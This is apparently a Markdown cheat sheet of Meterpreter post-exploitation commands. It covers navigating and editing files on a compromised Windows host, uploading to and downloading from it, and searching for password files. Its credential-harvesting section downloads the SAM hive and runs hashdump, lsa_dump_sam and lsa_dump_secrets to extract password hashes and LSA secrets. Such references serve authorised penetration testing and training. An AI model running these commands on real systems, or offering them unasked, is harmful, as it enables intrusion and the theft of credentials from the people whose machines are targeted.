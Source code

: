 
## File System Operations

### Navigation and Listing
```bash
# Directory operations
meterpreter > pwd
meterpreter > ls
meterpreter > cd <directory>
meterpreter > mkdir <directory>
meterpreter > rmdir <directory>

# File operations
meterpreter > cat <file>
meterpreter > edit <file>
meterpreter > rm <file>
meterpreter > mv <source> <destination>
meterpreter > cp <source> <destination>
```

### File Transfers
```bash
# Upload files to target
meterpreter > upload /local/path/file.txt C:\\Windows\\Temp\\
meterpreter > upload -r /local/directory C:\\Windows\\Temp\\

# Download files from target
meterpreter > download C:\\Windows\\System32\\config\\SAM
meterpreter > download -r C:\\Users\\Administrator\\Documents\\
```

### File Search
```bash
# Search for files
meterpreter > search -f *.txt
meterpreter > search -f password* -d C:\\Users\\
meterpreter > search -f config.xml -r
```

## Credential Harvesting

### Password Hash Extraction
```bash
# Dump password hashes (requires SYSTEM)
meterpreter > hashdump

# Advanced SAM database dump
meterpreter > lsa_dump_sam

# LSA secrets extraction
meterpreter > lsa_dump_secrets
```
